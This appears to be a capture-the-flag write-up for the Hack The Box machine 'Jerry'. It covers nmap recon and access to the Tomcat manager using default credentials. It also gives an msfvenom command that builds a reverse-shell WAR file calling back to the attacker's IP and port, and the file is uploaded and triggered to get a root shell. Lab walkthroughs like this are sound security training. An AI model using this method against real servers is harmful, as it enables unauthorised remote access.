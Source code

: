 ```yaml
---
description: My writeup for the HTB box Jerry
---
```


# Jerry

## Box Overview

![](.gitbook/assets/vmplayer_dumav6wnhh.png)

Jerry is a easy rated windows box with a user rated difficulty of 2.9/10 at the time of writing.

Jerry is a relatively easy box that to get root access to the machine requires us to navigate to a webpage gain manager app access using default credentials and then upload and execute a war file to gain root access to the machine.

## Recon

### Nmap

As always we start our inital recon of the box using nmap.

```text
nmap -sC -sV 10.10.10.95
```

![nmap output](.gitbook/assets/vmplayer_b1lfqgvbw0.png)

Now, looking at our nmap results we see that there is only one service found to be running by our scan. This to me says that we need to be using a more extensive scan incase there is another service running on a different port outside of our current scans range. However, we will first try the website and then come back to this if needed.

### Webpage

So, just before we start to directory bust the webpage we should go have a look at. Navigating to the page we are greeted with the default tomcat server page.

![](.gitbook/assets/vmplayer_93oygrqi0x.png)

The first thing that catches my eye is the Manager app button on the top right of the page. Clicking this gives us a login pop up.

![tomcat manager app login](.gitbook/assets/vmplayer_09pvgift2l.png)

After trying some of the obvious default logins such as `admin:admin` and the like we still do not have access. So we click cancel. However this takes us to a error page. This is because we try to access the manager page without having manager access.

![](.gitbook/assets/vmplayer_zikrix9fm7.png)

Looking through the error page we see a set of default login credentials. Lets try those. Success! We now have access to the manager app of the web server.

![](.gitbook/assets/vmplayer_dkjonjbaty.png)

## Gaining user shell

Now that we have manger access looking through the manager app we see lots of information about the server as well as having the ability to upload war files. This would seem easy to abuse, just make a reverse shell war file and execute it.

To create our war file we are going to use msfvenom to create our payload. The command we are going to use is:

```text
msfvenom -p java/jsp_shell_reverse_tcp LHOST+10.10.14.11 LPORT=12345 -f war > shell.war
```

| Command | Explanation |
| :--- | :--- |
| -p | select the payload to use |
| LHOST | sets our ip address to be connected to by target |
| LPORT | sets our port to be connected to by the target |
| -f | Output format |

Naming the war file shell.war we upload this file to the server through the manager app.

![](.gitbook/assets/vmplayer_bw1e5dk3qh.png)

Making sure that we have our listener running we then navigate to `10.10.10.95:8080/shell`. We should get a connection from the server.

![](.gitbook/assets/vmplayer_jww21oibls.png)

Checking our privelleges we see that we are root.

